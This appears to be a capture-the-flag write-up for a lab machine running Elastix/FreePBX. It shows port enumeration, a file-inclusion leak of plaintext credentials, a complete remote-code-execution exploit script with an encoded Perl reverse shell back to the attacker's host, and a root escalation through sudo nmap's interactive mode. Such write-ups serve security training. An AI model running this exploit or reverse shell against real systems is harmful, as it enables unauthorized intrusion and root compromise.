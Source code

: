 # IP Address: 10.10.10.7

# Enumeration
```
┌──(code㉿kali)-[~]
└─$ nmapAutomator.sh -H 10.10.10.7 -t all


PORT      STATE SERVICE    REASON  VERSION
22/tcp    open  ssh        syn-ack OpenSSH 4.3 (protocol 2.0)
25/tcp    open  smtp       syn-ack Postfix smtpd
80/tcp    open  http       syn-ack Apache httpd 2.2.3
110/tcp   open  pop3       syn-ack Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
111/tcp   open  rpcbind    syn-ack 2 (RPC #100000)
143/tcp   open  imap       syn-ack Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
443/tcp   open  ssl/http   syn-ack Apache httpd 2.2.3 ((CentOS))
878/tcp   open  status     syn-ack 1 (RPC #100024)
993/tcp   open  ssl/imap   syn-ack Cyrus imapd
995/tcp   open  pop3       syn-ack Cyrus pop3d
3306/tcp  open  mysql      syn-ack MySQL (unauthorized)
4190/tcp  open  sieve      syn-ack Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open  upnotifyp? syn-ack
4559/tcp  open  hylafax    syn-ack HylaFAX 4.3.10
5038/tcp  open  asterisk   syn-ack Asterisk Call Manager 1.1
10000/tcp open  http       syn-ack MiniServ 1.570 (Webmin httpd)
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com, localhost; OS: Unix



```

### HTTP (80)
Elastix VoIP service is served on TCP port 80 which is vulnerable to local file inclusion. We can grab the amportal.conf file with Burp (so that it's formatted) and see the database and admin user credentials in plaintext.

![[Pasted image 20211118194810.png]]

asteriskuser:jEhdIekWmdjE
admin:jEhdIekWmdjE

After logging in as admin, we find a user, fanis, and their PBX extension at PBX tab >> Batch of Extensions >> Download the current extensions in CSV format.

A Google search reveals an unauthenticated RCE vulnerability with the FreePBX (Asterisk) component. We find an exploit here https://www.nmmapper.com/st/exploitdetails/18650/26436/freepbx-2100-elastix-220-remote-code-execution/ and edit it for our purposes.

Original:
```
import urllib
rhost="172.16.254.72"
lhost="172.16.254.223"
lport=443
extension="1000"

# Reverse shell payload

url = 'https://'+str(rhost)+'/recordings/misc/callme_page.php?action=c&callmenum='+str(extension)+'@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%22'+str(lhost)+'%3a'+str(lport)+'%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A'

urllib.urlopen(url)
```

Edited:
```
import ssl						# EDIT 1
import urllib
rhost="10.10.10.7"				# EDIT 2
lhost="10.10.14.17"				# EDIT 3
lport=4488						# EDIT 4
extension="233"					# EDIT 5 (fanis' extension)

ctx = ssl.create_default_context()	# BEGIN EDIT 6
ctx.check_hostname = False
ctx.verify_mode = ssl.CERT_NONE		# END EDIT 7

# Reverse shell payload

url = 'https://'+str(rhost)+'/recordings/misc/callme_page.php?action=c&callmenum='+str(extension)+'@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%22'+str(lhost)+'%3a'+str(lport)+'%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A'

urllib.urlopen(url, context=ctx)	# EDIT 8
```

Note: We needed to import the SSL library to have the ability to ignore the certificate errors served. 

Setting up a netcat listener on port 4488, we launch the exploit and catch a reverse shell as asterisk.
```
┌──(code㉿kali)-[~]
└─$ nc -nlvp 4488
listening on [any] 4488 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.7] 50263
id
uid=100(asterisk) gid=101(asterisk)

```

user.txt

![[Pasted image 20211119131650.png]]


# Privilege Escalation

Check sudo permissions of asterisk and find that user can run many commands as root without password. Run nmap interactively and spawn a root shell.
```
python -c 'import pty;pty.spawn("/bin/bash")'
bash-3.2$ sudo -l
sudo -l
Matching Defaults entries for asterisk on this host:
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR
    LS_COLORS MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY"

User asterisk may run the following commands on this host:
    (root) NOPASSWD: /sbin/shutdown
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/bin/yum
    (root) NOPASSWD: /bin/touch
    (root) NOPASSWD: /bin/chmod
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /sbin/service
    (root) NOPASSWD: /sbin/init
    (root) NOPASSWD: /usr/sbin/postmap
    (root) NOPASSWD: /usr/sbin/postfix
    (root) NOPASSWD: /usr/sbin/saslpasswd2
    (root) NOPASSWD: /usr/sbin/hardware_detector
    (root) NOPASSWD: /sbin/chkconfig
    (root) NOPASSWD: /usr/sbin/elastix-helper
bash-3.2$ sudo /usr/bin/nmap --interactive
sudo /usr/bin/nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
sh-3.2# id
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)

```


# Proof

root.txt

![[Pasted image 20211119133031.png]]